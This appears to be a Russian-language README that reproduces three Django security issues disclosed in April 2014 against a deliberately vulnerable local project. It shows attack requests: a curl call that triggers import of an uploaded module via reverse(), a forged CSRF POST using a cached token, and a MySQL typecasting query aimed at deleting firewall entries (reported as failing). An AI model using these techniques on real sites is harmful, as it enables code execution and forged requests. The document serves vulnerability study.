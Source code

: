 ## Source URL

https://www.djangoproject.com/weblog/2014/apr/21/security/

```
$ pip install Django==1.6.2 MySQL-python==1.2.5
$ django-admin.py startproject django-vulnerable
```

## Issue: Unexpected code execution using reverse() ##


Обычный HTTP запрос


	$ curl localhost:8000

	       /\     /\
	      {  `---'  }
	      {  O   O  }  
	    ~~|~   V   ~|~~  
	       \  \|/  /   
	        `-----'__
	        /     \  `^\_
	       {       }\ |\_\_   W
	       |  \_/  |/ /  \_\_( )
	        \__/  /(_E     \__/
	          (  /
	           MM


Для успешной выполнения уязвимости злоумышленник должен использовать внедрить код.

Один из способов - уязвимая конфигурация `MEDIA_ROOT`.

```python
import os

PROJECT_DIR = os.path.dirname(os.path.dirname(__file__))
MEDIA_ROOT = os.path.join(PROJECT_DIR, 'media')
```

Используя загрузку файла залили exploit в `MEDIA_ROOT`.

Теперь `MEDIA_ROOT` полноценный `Python package`, который можно импортировать.


       $ tree media/
       media/
       ├── __init__.py
       ├── __init__.pyc
       ├── pwn.py
       └── pwn.pyc


(`pyc` файлы появляются после эксплуатации уязвимости)


HTTP запрос злоумышленника


	$ curl localhost:8000?next=media.pwn.own

	                     .ed"""" """$$$$be.
	                   -"           ^""**$$$e.
	                 ."                   '$$$c
	                /                      "4$$b
	               d  3                      $$$$
	               $  *                   .$$$$$$
	              .$  ^c           $$$$$e$$$$$$$$.
	              d$L  4.         4$$$$$$$$$$$$$$b
	              $$$$b ^ceeeee.  4$$ECL.F*$$$$$$$
	  e$""=.      $$$$P d$$$$F $ $$$$$$$$$- $$$$$$
	 z$$b. ^c     3$$$F "$$$$b   $"$$$$$$$  $$$$*"      .=""$c
	4$$$$L        $$P"  "$$b   .$ $$$$$...e$$        .=  e$$$.
	^*$$$$$c  %..   *c    ..    $$ 3$$$$$$$$$$eF     zP  d$$$$$
	  "**$$$ec   "   %ce""    $$$  $$$$$$$$$$*    .r" =$$$$P""
	        "*$b.  "c  *$e.    *** d$$$$$"L$$    .d"  e$$***"
	          ^*$$c ^$c $$$      4J$$$$$% $$$ .e*".eeP"
	             "$$$$$$"'$=e....$*$$**$cz$$" "..d$*"
	               "*$$$  *=%4.$ L L$ P3$$$F $$$P"
	                  "$   "%*ebJLzb$e$$$$$b $P"
	                    %..      4$$$$$$$$$$ "
	                     $$$e   z$$$$$$$$$$%
	                      "*$c  "$$$$$$$P"
	                       ."""*$$$$$$$$bc
	                    .-"    .$***$$$"""*e.
	                 .-"    .e$"     "*$c  ^*b.
	          .=*""""    .e$*"          "*bc  "*$e..
	        .$"        .z*"               ^*$e.   "*****e.
	        $$ee$c   .d"                     "*$.        3.
	        ^*$E")$..$"                         *   .ee==d%
	           $.d$$$*                           *  J$$$e*
	            """""                              "$$$"


В этом случае происходим импорт модуля `media.pwn` с выполнением `import side effect`


## Issue: Caching of anonymous pages could reveal CSRF token ##

### Анатомия уязвимости

	$ curl -I localhost:8000/boom/
	HTTP/1.0 200 OK
	Date: Sun, 04 May 2014 14:58:59 GMT
	Server: WSGIServer/0.1 Python/2.7.6
	Expires: Sun, 04 May 2014 15:07:25 GMT
	Vary: Cookie
	Last-Modified: Sun, 04 May 2014 14:57:25 GMT
	Cache-Control: max-age=600
	X-Frame-Options: SAMEORIGIN
	Content-Type: text/html; charset=utf-8
	Set-Cookie:  csrftoken=EbLMgjQ9g62hzmeaEovXkhhqwIQmKst1; expires=Sun, 03-May-2015 14:57:24 GMT; Max-Age=31449600; Path=/

### Пример

0. Пример кода с view

1. Представим ситуацию. Жертва - постоянный анонимный пользователь сайта.

  ```
  $ curl localhost:8000/boom/
  7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc
  ```

2. У злоумышленника есть сайт и механизм(бот), который ходит на сайт жертвы и получает куки анонимов из кэша

3. (прил) пользователь заходит на сайт злоумышленника и там выполняется AJAX запрос аналогичный

  ```
  $ curl --request POST \
	--cookie "csrftoken=7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc" \
	--data "csrfmiddlewaretoken=7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc" \
	localhost:8000/boom/
  BOOM!
  ```

## Issue: MySQL typecasting

Попытаемся разобраться о чем идет речь


	>>> query_obj = CVE_2014_0474_Blacklist.objects.filter(ip=192.168)
	>>> print query_obj.query
	SELECT `blacklist`.`id`, `blacklist`.`ip` FROM `blacklist` WHERE `blacklist`.`ip` = 192.168

	mysql> SELECT `blacklist`.`id`, `blacklist`.`ip` FROM `blacklist` WHERE `blacklist`.`ip` = 192.168;
	+----+---------------+
	| id | ip            |
	+----+---------------+
	|  2 | 192.168.0.1   |
	|  3 | 192.168.83.17 |
	+----+---------------+
	2 rows in set, 3 warnings (0,01 sec)


Варианты использования:

У злоумышленника появился доступ к очереди(например RabbitMQ) celery.

Celery сериализует аргументы функций. Можно сериализовать число туда, где приложение ожидает строку.

Потенциальная атака: попытаемся удалить всю подсетку из фаервола:


	>>> query_obj.delete()
	Traceback (most recent call last):
	  File "<console>", line 1, in <module>
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/query.py", line 465, in delete
	    collector.delete()
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/deletion.py", line 260, in delete
	    qs._raw_delete(using=self.using)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/query.py", line 476, in _raw_delete
	    sql.DeleteQuery(self.model).delete_qs(self, using)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/sql/subqueries.py", line 85, in delete_qs
	    self.get_compiler(using).execute_sql(None)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/sql/compiler.py", line 782, in execute_sql
	    cursor.execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/util.py", line 69, in execute
	    return super(CursorDebugWrapper, self).execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/util.py", line 53, in execute
	    return self.cursor.execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/mysql/base.py", line 124, in execute
	    return self.cursor.execute(query, args)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/MySQLdb/cursors.py", line 207, in execute
	    if not self._defer_warnings: self._warning_check()
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/MySQLdb/cursors.py", line 117, in _warning_check
	    warn(w[-1], self.Warning, 3)
	Warning: Truncated incorrect DOUBLE value: '127.0.0.1                                    '


От успешной эксплуатации уязвимости спасает то, что MySQL выдает предупреждения, а Django воспринимает их как ошибки и предотвращает выполнение запроса.


	mysql> SHOW WARNINGS;
	+---------+------+-----------------------------------------------------------------------------------+
	| Level   | Code | Message                                                                           |
	+---------+------+-----------------------------------------------------------------------------------+
	| Warning | 1292 | Truncated incorrect DOUBLE value: '127.0.0.1                                    ' |
	| Warning | 1292 | Truncated incorrect DOUBLE value: '192.168.0.1                                  ' |
	| Warning | 1292 | Truncated incorrect DOUBLE value: '192.168.83.17                                ' |
	+---------+------+-----------------------------------------------------------------------------------+
	3 rows in set (0,00 sec)


На этом я решил остановиться. Эксплуатировать уязвимость не получилось.

Заинтересованным можно попробовать продолжить разные комбинации MySQL и Python коннектора для успешной выполнения атаки.
